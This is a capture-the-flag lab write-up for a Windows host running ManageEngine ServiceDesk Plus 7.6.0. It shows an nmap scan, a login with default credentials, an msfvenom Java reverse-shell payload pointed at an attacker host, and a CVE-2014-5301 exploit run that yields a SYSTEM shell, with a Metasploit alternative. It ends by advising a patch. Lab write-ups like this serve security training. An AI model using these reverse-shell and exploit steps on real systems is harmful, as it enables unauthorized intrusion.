




n
OS: Windows
# Nmap
First run a nmap scan:

```sh
┌──(kali㉿kali)-[~/PGPRACTICE/HELPDESK/recon/nmap]
└─$ nmap -p- -vv --min-rate 2000 -oA init 192.168.228.43 -Pn               
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
....
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack
139/tcp  open  netbios-ssn   syn-ack
445/tcp  open  microsoft-ds  syn-ack
3389/tcp open  ms-wbt-server syn-ack
8080/tcp open  http-proxy    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 65.73 seconds
```
# visit port 8080
I noticed that port 8080 was open so I decided to check it out. It became clear the server was running ManageEngine ServiceDesk Plus Version 7.6.0


The vrsion is clearly visible in the right bottom corner.

After googling for the default credentials of the application we can see that the default username and password is administrator/adminstrator. 

We are able to login with the default username and password administrator/adminstrator




The ManageEngine software has a path traversal vulnerabilty which can lead to RCE. The exploit we can use is:

https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

# Exploit
As mentioned in the python file with the exploit we have to generate a .war file with msfvenom:
```sh
 msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.166 LPORT=4444 -f war > shell.war
```

Now we can start a listener and run the exploit:
```sh
┌──(kali㉿kali)-[~/PGPRACTICE/HELPDESK/exploit]
└─$ python3 CVE-2014-5301.py 192.168.228.43 8080 administrator administrator shell.war
```
Boom Baby! We have a shell as 'nt authority\system'. We do not need to escalate out privileges and we can read the proof.txt flag.



# Exploiting with metasploit.
We can also use Metasploit for exploiting the vulnerability:

```sh
use exploit/multi/http/manageengine_auth_upload
```

Then set the `RHOST` and `LHOST`. The payload should be `java/shell_reverse_tcp`. The exploit will work with the default username and password `guest/guest`.



# Recommendations:
1. Update the application. The issue is fixed on ServiceDesk Plus 9.0 build 9027 and on AssetExplorer
6.1 build 6107. It is UNFIXED for IT360.
